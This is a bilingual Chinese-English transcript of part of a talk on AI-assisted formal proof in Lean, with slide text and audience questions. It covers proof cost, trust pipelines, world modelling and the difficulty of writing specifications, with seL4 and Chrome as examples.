但一般来说，证明就是要求极其细致的表达，而且很难自动化。Um but it is like just in general like proof is like just you have to be insanely detailed and it's very hard to automate and yeah.

Audience我觉得，证明总是比定理长。而且，自我证明……不过，它们只是长一个常数倍，还是……I think proofs are always longer than theorems. And the and the self proving — Okay, but are they are they constant factor longer or

Mike Dodds我觉得，这非常依赖于具体定理。I think it really depends on the on the theorem.

## 密码学中证明的复杂性The Complexity of Proofs in Cryptography

也取决于你采用的惯用方法、自动化程度，以及其他因素。请说。Uh and it depends on your idioms and like automation and all these kinds of things, yeah. Go ahead.

Audience我是这里的大一学生，问题也许有点笨。你有一个库，然后说，通过一份非常全面的证明，可以保证它安全。但在密码学里，即使有全面的安全证明，也未必真的安全。比如，可能存在差分攻击之类的方式，利用算法之外的其他东西发起攻击。Yeah, I'm a freshman at the college and my question might be stupid, but like so as you have this library, so you claim that it's to be secured by giving out like a very comprehensive proof, but I mean for cryptography sometimes a comprehensive proof of security doesn't mean it's actually secure because you might have something like differential attacks that actually take advantage of other stuff other like not the algorithm itself to attack them.

所以，它仍然可能不安全。So it could still be insecure.

幻灯片 71 Slide 71



**幻灯片文字 / Slide text**

```
Problem 1: proof is
very hard
used to be?
```

Mike Dodds非常好的问题，大约再过两张幻灯片，我就会讲到。也许请让我稍后处理。也许，证明只是“过去”很难。我想，一个原因是……哦，不好意思，请说。Excellent question. That's about two slides in the future. So yeah. Um So yeah, maybe let me deal with that in one moment. Um So yeah, maybe proof only used to be hard. So like I think that like one reason explanation for Oh, I'm sorry. Yeah.

Audience哦，抱歉，没关系。Oh, sorry. It's okay.

我想问，我们是否仍然需要审查 AI 生成的证明代码，确保它没有做 Lean 版本的“永远返回 true”，或者“始终假设成立”之类的事情？Um I was wondering if you would still need to review the AI generated proof code to make sure it hasn't done the equivalent the Lean equivalent of return true always assume you know like

Mike Dodds我觉得，这正是 Lean 很好的地方：定理陈述和证明之间，有一个区分。你需要为定理陈述负责；而证明，由 Lean 的内核来检查。Yeah, I think that's the nice thing about Lean is that it's sort of mostly there's like this distinction between like a theorem statement which is like is that you have you're responsible for and then the proof and the proof is sort of it's checked by the Lean by Lean's kernel.

再等几张幻灯片，我会详细谈。它的目标是，在证明中提出的那些断言，不应该存在被错误地判为正确的可能。And so, it is sort of supposed to be again waste a couple of slides and I'll get to this, but it's supposed to be that like there is no way for it to be wrong about claims that it makes in a proof, right?

从这个角度看，定理陈述，只占其中很小的一部分；很大一部分证明，只是某种临时产物。你本来不应该需要逐行审查它。实际上，事情会复杂一点，但这就是目标。Um so, it sort of gives you this you know, if you're talking about this in some ways like you know, you have like a sort of statement of the theorem which is like some small percentage of this and then large amount of this is just sort of like ephemeral. You shouldn't have to kind of review it. It's a little more complicated than that in point of fact, but that's kind of the aim.

## AI 红队测试：对人类软件的信任AI Red Teaming: Trust in Human Software

幻灯片 72 Slide 72



**幻灯片文字 / Slide text**

```
Project costs vs. beneﬁts
Beneﬁt
Cost
break-even
Human-written
proofs
Tiny habitable
zone
```

过去的世界大致如此：项目有成本，也有收益；是否值得做，取决于成本与收益，是否越过那条盈亏平衡线。对于人类手写证明，真正“适宜生存”的项目区域，非常小。Um anyway, so like historically like this is how like you know, the world has looked like we've had like cost and benefits, you know, where like projects kind of are good or bad bit depending on whether they kind of meet the kind of break even line for how much they cost versus how much they benefit you. And for human written proofs, the kind of the sort of tiny habitable zone of like projects has been really tiny.

幻灯片 73 Slide 73



**幻灯片文字 / Slide text**

```
Project costs vs. beneﬁts
Beneﬁt
Cost
Human-written
proofs
AI-assisted
proofs
break-even
```

几乎没有多少项目能算得过账，因为证明实在太贵。好消息是，也许 AI 辅助证明，能把我们拉过这条线。AI 让证明便宜得多，于是更多证明技术，会变得有用得多。第二个问题，是世界建模。You know, there's almost no projects pencil out and that's because they're just really expensive to do proofs. And so, like a really nice thing is that maybe the AI assisted proofs are going to kind of yank us across the kind of this line and like a lot more proof technology will be like way more useful because we have these AIs that make them a lot cheaper. So, problem two, world modeling.

**展开前面的幻灯片（74）Show preceding slides (74)**

幻灯片 74 Slide 74



**幻灯片文字 / Slide text**

```
Problem 2:
world modeling is
hard
```

幻灯片 75 Slide 75

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust pipeline
System code
(eg. Rust)
some_speciﬁcation.lean
model.lean
```

这里，我会谈到刚才两个问题。世界建模非常难。看看这条信任流水线：我们有一段系统代码，比如用 Rust 写成；把它转换成模型；再有一份规格；最后交给 Lean。This is where I'm going to talk about both of these issues. Like world modeling is incredibly hard. And so, if you think about the trust pipeline here, we're sort of we're going to have like a piece of system code which might be written in Rust, something like that. We turn it into a model. We have a specification. And then we hand it over to Lean.

幻灯片 76 Slide 76

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust pipeline
System code
(eg. Rust)
some_speciﬁcation.lean
model.lean
Trusts:
-
Library models
-
Language semantics
-
Hardware, OS, …
```

首先，需要某个工具，把 Rust 代码转换成 Lean 中的模型。然后，你假设库模型正确、语言语义正确，硬件和操作系统等也符合预期。Well, the first thing is we're going to have some tool that takes our Rust code and like turns it into some model in Lean. And you're sort of assuming that this is like a library model is correct, your language semantics is correct, your hardware, your OS.

另一个需要信任的环节，是你确实陈述了自己关心的性质。稍后我还会讲。比如，模型也许没有包含微架构攻击，像 Meltdown、Spectre 这一类。因此，问题之一是：你是否正确地建模了世界？I mean, another thing that you're trusting here that's like going to I'm going to talk about it in a moment is also that you like stated like the properties you care about. So, like for example, your model might not include microarchitectural attacks, you know, sort of meltdown and Spectre type things. So, there's sort of like a did you model the world correctly?

幻灯片 77 Slide 77

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust pipeline
System code
(eg. Rust)
some_speciﬁcation.lean
model.lean
Trusts:
-
Logical core
-
Lean runtime
```

另一个相关问题是：Lean 自己是否正确地执行了推理？我觉得，Lean 是一个质量很高的工具，开发者做得已经不比其他人能够做到的差。但它终究是人类写的软件，也许未来会由 AI 编写；它有逻辑内核，也有运行时等组成部分。And there's also like as a side to the question, there's also like does Lean actually do the reasoning correctly? And Lean is I think a pretty quality tool and they've done as well as I think anybody else could have done, but still it's a piece of human written software, maybe eventually it'll be AI written software, and it's got a logical core and a runtime and things like this.

幻灯片 78 Slide 78

[figure not shown]

**幻灯片文字 / Slide text**

```
“Mostly trustless”
https://kirancodes.me/posts/log-who-watches-the-watchers.html
(this week!)
```

- https://kirancodes.me/posts/log-who-watches-the-watchers.html

实际上，就在这周，我们看到了 Lean 运行时中的一个缓冲区溢出。而且，是 Claude 发现的。这基本上就是 AI 对 Lean 运行时进行红队测试，有一篇很好的博客介绍。所以，Lean 相当可信，但世界上没有什么是完美的。And in fact, we just this week we had an example of like a buffer overflow in the Lean runtime, okay? Uh this was found by Claude, by the way. Uh so, this was so this is basically like kind of like AI red teaming of the Lean runtime. It's a nice blog post. And so, AI so, Lean is like quite trustworthy, but like nothing in this world is perfect.

## seL4 代码之辩：为什么 Rust 中的规格很重要The SeL4 Code Debate: Why Specification Matters in Rust

幻灯片 79 Slide 79



**幻灯片文字 / Slide text**

```
World modelling is
‘just’ engineering
but
  the gap is huge
```

某种意义上，这些就是工程问题。你有没有一个非常好的办法，把 Rust 代码转换进 Lean？你对 Lean 的审计，是否有一套可信的说明？这些都是工程问题，但目前的差距，相当大。Uh in some sense, this is just an engineering problem, right? It like it is some of it's just engineering problem. Like, do you have a really good way of getting Rust code into Lean? Do you have a really kind of good like story about how you've audited Lean? These are just engineering problems, but the gap is kind of pretty significant. Okay.

**展开前面的幻灯片（80）Show preceding slides (80)**

幻灯片 80 Slide 80



**幻灯片文字 / Slide text**

```
Problem 3:
speciﬁcation is
very
 very
  very hard
```

幻灯片 81 Slide 81

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust pipeline
System code
(eg. Rust)
some_speciﬁcation.lean
model.lean
Assumes:
-
The user understands the spec
-
The user knows what they want
```

接下来，是一个真正的“最终头目”问题：规格非常、非常难。问题在于，我刚才说“有某份规格”，可它究竟从哪里来？谁写的？当然，可以让 AI 写，但那就成了 AI 给自己的作业打分，这不是我们想要的。Now, this is the like genuine end boss kind of problem which is specification is very very hard. And the problem here is basically like okay, so when I sort of said, okay, some specification, well, what does that Where did this thing come from, right? Who wrote that? Well, you could get the AI to write it, but then you just kind of the AI is marking its own homework, right? You know, you don't want that, right?

幻灯片 82 Slide 82



**幻灯片文字 / Slide text**

```
seL4 - code / proof + speciﬁcation (c. 2009)
seL4 code
(~8.5k loc C)
seL4 proof
(~165k loc Isabelle)
seL4 speciﬁcation
(~4.9k loc Isabelle)
```

而且，你还假设，自己理解规格的含义，也理解自己真正想要什么；从某些方面说，这甚至更难。所以，这些规格从哪里来，是一个极其重要的问题。可以这样想：这里是 seL4 代码，这里是证明，那么这里就是规格，它本身大约有五千行代码。But you're sort of also you're assuming that you understand what the spec means and that you understand what you want, which might be even harder in some ways. And so, where do these specifications come from is the kind of really important question. Like I think one way to think about this is like okay, here's the seL4 code. Here's the proof. Well, here's the spec, right? Which is like 5,000 lines of code, right?

于是，你说：“太好了，现在不用读九千行 C 代码，只要改读五千行规格。”[笑声] 显然，这是一个很大的问题。我们确实希望 AI 能帮上忙，但不能把 AI 本身当作信任根。And so you're like, okay, great. Well, now I don't have to read the 9,000 lines of C code. I can just read the 5,000 lines of specification [laughter] instead. Um and like this is okay, this is clearly like a big problem. Like we really want like the AI to kind of be able to help us in some ways, but we can't trust the AI as a root of trust.

## 改变解决技术挑战的方法Changing the approach to solving a technical challenge

我们确实对问题获得了更多杠杆，至少获得了一些帮助。seL4 也许是一个极端例子，但并非完全没有代表性。请说。This, you know, we're getting a lot more leverage we're getting some leverage on the problem. I think seL4 is a particularly extreme example, but I don't think it's kind of like un totally unrepresentative. Yeah, go ahead.

Audience如果你本来就准备讲这个，我先道歉；如果你不同意，我就不道歉了。Apologies if you were going to say this, but not apologies if you disagree.

对于没做过这类工作的人，也许还需要说明：人类之所以能把那 4,900 行规格写对，或者写得更对、更有用，靠的就是实际去做证明。我们就是这样工作的。发现证明太容易，才意识到，给出的陈述可能是平凡的；发现证明太难，才意识到，它对这段代码其实不成立，然后再回头修改。It seems like you're also, for people who haven't done this kind of work, the way the humans get those 4.9 K lines of specification right or more right or useful is to work on the proof. That's what we do. Right? And then, oh, it's too easy. Oh, that's because I gave it back to you a statement. Right? Oh, it's too hard. Oh, that's because it's not actually true of the code and back we go.

所以，如果我们负责写规格，却不负责做证明，该怎么开展这项工作？So, if we are going to be the one specifying and we're not going to be the one approving, how will we work on it?

Mike Dodds我觉得，这是个很好的问题。能够直接把证明完成的工具，目前还不存在；那种能力，我们还没有。I think I think that's a great question and I think it's I think it's sort of you know, the the idea of, you know, the having tools that could just do the proof like those tools don't you know, that capability does not exist yet, right?

所以，某种意义上，大家都还在摸索。我当然希望，没有人听完之后觉得，我已经解决了这个问题。我想说的是，这些工具会非常有用；如果能找到办法，用规格来驱动可信保障，那会非常棒。但其中有极其艰巨的挑战。So, in some sense like we are all just figuring this out like and so I think that I think you know, I certainly hope that nobody is coming away from thinking like that I have solved this problem. What I'm saying is like these tools are going to be super useful and like if we can find ways to like use specifications as drivers for like assurance, then that will be amazing. But there's like incredible challenges.

## Chrome 的规格Chrome Specification

这完全不同于过去人们开展大型证明的方式，我觉得，也会成为一个工作流程上的问题。再说一些关于规格的事情。Like this is totally not the way that people have worked on these big proofs in the past and I think that's going to be just a workflow question as well. Um some other things about specifications I suppose.

幻灯片 83 Slide 83



**幻灯片文字 / Slide text**

```
Formal speciﬁcations, ideally:
- Mathematically clean
- Stable over time
- Agreed by the users of the system
- Easy to reason about
```

幻灯片 84 Slide 84



**幻灯片文字 / Slide text**

```
Big successes ALL ﬁt this ideal model
Cryptographic algorithms (HACL*)
Operating systems / hypervisors (SeL4)
Compilers / programming languages (CompCert)
Cloud services (AWS / Meta &c)
Hardware (Intel &c)
```

理想的数学规格，应该清晰、稳定，得到大家认可，而且容易推理。我在其他报告里也说过，回顾大型形式化方法项目，它们大多符合这个模式：密码学库、操作系统、编译器、云服务等等。这些确实构成了我们关心内容中的很大一部分。Like ideally mathematical specifications are like clean and stable and agreed by everybody and easy to reason about and when you look at the history of these formal methods projects I've said this in other talks, but like the big projects all fit this pattern. And like you know, you have crypto libraries and operating systems and compilers and cloud services and things, right? This is a big part of what we care about.

但从某些方面说，它们也是树上最饱满、最容易摘取的樱桃。大多数东西，并不容易以这种方式写出规格。多数东西的规格，都杂乱而模糊。所以，我们不应该只根据这些成功例子，就过度推广。But also in some ways these are like the kind of plumpest cherries on the tree. Like most things are not very specifiable in this way. Like most of them have like messy and fuzzy specifications and I think in some ways like we shouldn't over generalize from just this.

我觉得，还有很多东西，也具有类似性质，只是规模太大，眼下无法处理；未来，我们也许能处理它们。但不能因此以为，所有东西都一样。比如，Mike 刚才问过我 Word。Microsoft Word 的形式化规格，究竟是什么？I think there's still probably quite a lot of things that are like too big but have some of this nature but are just too big to deal with right now that we could deal with. But we I don't think we could like if we sort of think about something like Mike earlier was asking me about like word. Like you know, what's the what's the formal specification for Microsoft Word?

Chrome 的形式化规格又是什么？它们都是非常重要的软件，我们希望它们正确。但我不觉得，存在一个定理，可以说：“好，这就是 Chrome 应该是什么。”该怎么给它写规格？这似乎很难。总体来说，世界上充满规格，但都非常不形式化。Like what's the formal specification for Chrome, right? These are both like really important pieces of software. We want them to be correct, but I don't think there's like a theorem that says, okay, well, this is what a what a Chrome is, you know, it's like how do we specify that? That seems hard. Um and the world in general is like full of specifications, but it's very non formal.

幻灯片 85 Slide 85



**幻灯片文字 / Slide text**

```
The world is very non-formal
Prose standards / RFCs / papers
Powerpoint decks (v common)
The code itself
Reference implementations
Inline code comments
…
```

有 RFC，以及那些看起来比较像真正规格的东西。但也经常有 PowerPoint 幻灯片。我不止一次看过一套 PowerPoint，然后问：“真正的规格在哪里？”对方说：“不，这就是。”我只能想：“好吧。”[笑声] 另一个常见情况是，你有代码，而代码本身就是规格。So, you know, you have RFCs and like things that look more like actual specs. But, you know, you often have like PowerPoint decks. You know, I've read more than one PowerPoint deck than I ask, "Well, where's the real spec?" And they're like, "No, no, that's it." And I'll damn, okay. [laughter] And like often another thing that actually happens is like you often have the code, which is the code itself is the spec.

